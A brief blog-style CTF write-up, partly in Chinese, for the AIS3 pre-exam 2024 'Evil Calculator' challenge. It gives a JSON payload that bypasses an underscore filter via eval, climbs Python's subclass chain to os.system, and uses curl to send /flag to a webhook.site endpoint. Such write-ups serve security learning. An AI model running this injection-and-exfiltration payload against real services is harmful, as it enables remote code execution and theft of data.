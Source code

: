 ```yaml
---
layout: post
title: "[CTF] AIS3-Pre-exam-2024 Writeup"
date: 2024-05-30 +0800
categories: CTF
hidden: false
---
```


## AIS3 pre-exam 2024
### Evil Calculator
- expression 有過濾`_`
- 無法直接回顯，可用curl帶出
```
{"expression":"eval(data['test'])",
"test":"''.__class__.__base__.__subclasses__()[154].__init__.__globals__['system']('curl https://webhook.site/49d52fa6-4db9-4ad8-8b6e-ee41224137b0 -d $(cat /flag)')"}
```

![](/images/2024/05/SkywNWyVC.png)
